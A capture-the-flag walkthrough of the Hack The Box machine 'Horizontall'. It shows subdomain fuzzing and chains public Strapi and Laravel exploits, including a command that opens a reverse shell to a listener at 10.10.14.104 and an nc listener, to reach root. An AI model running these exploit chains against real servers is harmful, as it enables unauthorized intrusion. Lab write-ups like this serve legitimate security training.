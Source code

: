 ```yaml
---
title: HTB Writeup - Horizontall
date: 2022-01-26T15:19:50.347Z
image: /images/1_jbwgsjvfciuozjdoclzcow.jpeg
tags:
  - hackthebox
  - htb
  - horizontall
  - tunneling
  - chisel
  - StrapiCMS
  - laravel
draft: false
---
```

**Machine Details**

**Name: Horizontall**

**IP address: 10.10.11.105**

**Difficulty: Easy**

**Points 20**

**Initial Enumeration**

Upon obtaining the IP address, 10.10.11.105, the first thing to do is to run a scan to figure out what ports and services are running on the machine. I did this using nmap and the result is shown below:

![](/images/2022-01-26_13-17.png)

The machine has two services running; SSH on port 22 and HTTP on port 80. The SSH version looks recent so I started my enumeration on the HTTP service running on port 80. From the result, the page redirects to http://horizontall.htb, so I proceeded to add this to my /etc/hosts file.

`10.10.11.105    horizontall.htb`

Visiting http://horizontall.htb in the browser, I was presented with the following page:

![](/images/2022-01-26_13-23.png)

I spent quite some time on this page trying to find a possible entry point but to no avail. I found that the web page using Vue.js. I ran a directory brute force using gobuster and obtained the following results:

`gobuster dir -u http://horizontall.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -o gobuster.out`

![](/images/2022-01-26_13-27.png)

I also tried to run a directory search using various extensions but no positive result. Being on this stage for a while, I decided to run a full port scan on the address to see if other ports are running, but did not find any. Since I have an hostname, horizontall.htb, I decided to search for other subdomains on the hostname. For this purpose, I used wfuzz starting with the subdomains-top1million-5000.txt file from seclists, I did not obtain a result, I used the subdomains-top1million-20000.txt file, no result and finally I used the subdomains-top1million-110000.txt file and I found another subdomain.

`wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.horizontall.htb" -u http://horizontall.htb --hc 301 -v`

I added this newly founded subdomain to the /etc/hosts file.

`10.10.11.105    horizontall.htb ********.horizontall.htb`

Visiting this subdomain on the browser, I was presented with a page that says "Welcome.".

![](/images/2022-01-26_16-34.png)

I performed directory search on this new subdomain using gobuster and I obtained some results:

`gobuster dir -u http://********.horizontall.htb -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -o gobuster.********.out`

![](/images/2022-01-26_14-07.png)

Visiting /admin on the browser, I was presented with a login page running Strapi CMS.

![](/images/2022-01-26_15-42_1.png)

I proceeded to searching Google for Strapi CMS and found that this CMS is vulnerable to a couple of remote code execution (RCE) vulnerabilities. One I found interesting is the unauthenticated exploit at <https://www.exploit-db.com/exploit/50239>. The exploit basically resets the admin password to a given value and provides a JWT token for the session. I downloaded and ran the exploit with the required parameter and was able to successfully reset the admin's password and obtain a JWT key and was able to login into the admin dashboard.

![](/images/2022-01-26_14-21.png)

`python3 50239.py http://********.horizontall.htb`

![](/images/2022-01-26_16-42.png)

![](/images/2022-01-26_15-42.png)

At this point, there are two options. The first is to send commands through the cmd shell obtained from the exploit above and wait for possible execution (blind RCE). The second option (which I followed) was to use another RCE exploit (authenticated) to gain a shell on the box. I found an exploit at <https://github.com/diego-tella/CVE-2019-19609-EXPLOIT>. The exploit takes a domain name or IP address, a JWT token, a listening host IP and a listening port. I ran the exploit and was able to obtain a reverse shell on my machine.

`python exploit.py -d http://********.horizontall.htb -jwt JWT -l 10.10.14.104 -p 9001`

Note: JWT is the token value obtained from 50239.py exploit. Also I had started a listener on my box on port 9001.

`nc -lvnp 9001`

![](/images/2022-01-26_14-54.png)

Now that I have a foothold, I started enumerating the box. I cat'ed the /etc/passwd file and noticed there is a user "developer". I visited the user's home directory and was able to read the user.txt file.

![](/images/2022-01-26_14-57.png)

After a while I went back to the directory I got a shell into, /opt/strapi/myapi and found a directory "config" that contains some environment configurations. In the development folder, I found mysql creds for the user "developer".

![](/images/2022-01-26_14-58.png)

I was able to access mysql with the creds but I obtained nothing much from the database. I tried to login on the box as user "developer" using the password I found but I got password authentication failure error.

After a while of enumeration, I checked the network connections using netstat and I noticed there is a service running on port 8000 locally on the box.

`netstat -antp`

![](/images/2022-01-26_14-59.png)

In order to access the service, I tunneled the port to my local machine on port 8080. I used chisel to do this (I had to move it to the box).

![](/images/2022-01-26_15-03.png)

 Accessing the port on my local machine, I got the page below:

![](/images/2022-01-26_15-03_1.png)

Searching for Laravel8 vulnerabilities on Google, I came across an interesting documentation on bookhacktricks - <https://book.hacktricks.xyz/pentesting/pentesting-web/laravel>. To verify, I checked that the Laravel setup is in debug mode.

![](/images/2022-01-26_15-04.png)

Down the page, there is link to a Laravel deserialization exploit. I used the exploit at <https://github.com/nth347/CVE-2021-3129_exploit>. Running the exploit with the required parameters, I was able to obtain a root shell on the box.

![](/images/2022-01-26_15-06.png)

And that's Horizontall!